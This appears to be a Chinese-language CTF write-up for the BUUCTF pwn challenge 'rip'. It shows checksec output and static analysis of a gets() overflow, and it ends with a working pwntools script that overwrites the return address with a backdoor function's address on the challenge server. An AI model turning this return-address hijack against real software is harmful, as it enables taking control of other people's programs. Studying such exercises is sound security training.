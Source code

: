 ```yaml
---
author: 
  name: Zephyr
title: rip
date: 2022-3-19 17:12:01
permalink: /pages/1e844742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# rip

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec pwn1
[*] '/root/pwn1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

![rip2131](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/rip2131.png)

可以明显看到存在溢出函数gets，另外本题存在后门函数fun

![sadad2312](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/sadad2312.png)

## 思路分析

本题没有开启PIE,可以通过采用栈溢出将原来函数的返回地址覆盖位后门函数的地址，完成程序劫持

## 确定偏移量

使用cyclic，简单测试一下即可得知本题偏移量为23

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/rip/pwn1'
io = remote('node4.buuoj.cn', 26919)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 23
backdoor = 0x40118A
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```